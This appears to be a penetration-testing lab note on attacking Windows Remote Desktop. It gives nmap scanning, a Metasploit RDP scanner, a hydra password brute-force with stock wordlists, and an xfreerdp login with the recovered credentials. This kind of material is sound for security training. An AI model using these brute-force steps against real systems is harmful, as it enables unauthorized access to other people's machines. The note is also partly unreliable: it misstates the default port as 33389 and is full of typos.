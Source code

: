 <h1>Exploiting RDP</h1>
</hr>
<ul>
  <li>
    The Remote Desktop Protocol (RDP) is a proprietarty GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
  </li>
  <li>
    RDP uses T CP port 3389 by default and can also be  configured to run on any other TCP port.
  </li>
  <li>
    RDP authentication requires a legitimate user account on the target system as well the user's passwrod in clear-text.
  </li>
  <li>
    We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.
  </li>
</ul>
</hr>
<h2>Pratically</h2>
<ol>
  <li>
    Target {ip}
  </li>
  <li>
    Nmap scan</br> <code>nmap -sV {ip}</code>
  </li>
  <li>
    RDP may or may not run on defult port which is 33389
  </li>
  <li>
    Metasploit:</br>
    <code>service postgresql start && msfconsole</code></br>
    <code>search rdp_scanner</code></br>
    <code>use auxiliary/rdp/rdp_scanner</code></br>
    change port if needed in my case <code>set RPORT 3333</code></br>
    <code>set RHOSTS {ip}</code></br>
    <code>run</code>
  </li>
  <li>
    brute Force:</br>
    <code>hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwrod.txt rdp://{ip}: -s 3333 (change port if needed)</code>       
  </li>
  <li>
    After gettiing Username and password</br>
  <code>xfreerdp /u:administrator /p:password /v:{ip}:3333</code></ol></br><span>chage port if needed </span>
  </li>
</ol>
